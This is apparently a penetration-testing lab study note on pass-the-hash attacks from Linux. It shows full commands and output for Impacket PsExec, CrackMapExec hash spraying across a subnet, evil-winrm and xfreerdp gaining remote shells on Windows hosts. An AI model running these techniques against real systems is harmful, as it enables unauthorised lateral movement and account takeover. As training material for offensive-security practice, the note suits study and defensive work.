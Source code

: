 # Pass The Hash Linux

## Pass the Hash with Impacket (Linux)
> Impacket has several tools we can use for different operations such as Command Execution and Credential Dumping, Enumeration, etc. For this example, we will perform command execution on the target machine using PsExec.

### Pass the Hash with Impacket PsExec
```bash

Username@xxx[/xxx]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

>There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:
- impacket-wmiexec
- impacket-atexec
- impacket-smbexec

## Pass the Hash with CrackMapExec (Linux)
> We can use CrackMapExec to try to authenticate to some or all hosts in a network looking for one host where we can authenticate successfully as a local admin. This method is also called "Password Spraying".
### Pass the Hash with CrackMapExec
```bash
Username@xxx[/xxx]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

## Pass the Hash with evil-winrm (Linux)
>evil-winrm is another tool we can use to authenticate using the Pass the Hash attack with PowerShell remoting. If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

## Pass the Hash with evil-winrm
```bash
Username@xxx[/xxx]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
>Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

## Pass the Hash with RDP (Linux)
```bash

Username@xxx[/xxx]$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

[15:38:26:999] [94965:94966] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[15:38:26:999] [94965:94966] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
...snip...
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[15:38:26:352] [94965:94966] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
...SNIP...
```
![pthrdp](/Images/rdpsessionpth.jpg)




